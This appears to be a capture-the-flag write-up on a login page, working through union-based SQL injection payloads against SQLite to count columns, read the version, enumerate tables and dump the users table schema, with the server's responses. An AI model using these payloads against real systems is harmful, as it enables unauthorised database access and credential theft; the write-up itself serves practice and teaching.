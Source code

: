   
 ### login page 
  
  we get error for ' or 1=1-- -
  
  ```json
  {"error":"The password for Lucas Washington is incorrect! contact administrator. Congrats on SQL injection... keep digging"}
  ```
  
  "The password for Lucas Washington is incorrect! contact administrator. Congrats on SQL injection... keep digging"
  
  ```html
  
	<h3>Username:</h3><br>
	<input type="text" name="user"><br>
	<h3>Password:</h3><br>
	<input type="password" name="password">
			
  ```
  
  ```sql
  
  select * from ? where user=? and password=?;
  
  select * from ? where user='or 1=1 and user="admin"-- -       ' and password=?;
  
  
   user='union select null,null,null,null;-- -
   
   gives us
   
   {"error":"The password for None is incorrect! None"}
   
   4 columns
   
   
   
   user='union select null,'a','b','c';-- -
   
   {"error":"The password for None is incorrect! c"}
   
   
   user='union select null,'a','b',sqlite_version();-- -
   
   {"error":"The password for None is incorrect! 3.22.0"}
   
   
   4 columns sqlite version 3.22
   
   user='union select null,'a','b',tbl_name;-- -
   
   
   user='union select null,null,null,tbl_name FROM sqlite_master;-- -
  
  {"error":"The password for None is incorrect! users"}
  
  table name = users
  
  
  user='union select null,null,null,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users';-- - 
  
  {"error":"The password for None is incorrect! CREATE TABLE users(\nname text not null,\npassword text not null,\nadmin int not null,\nnotes text not null)"}
  
  ```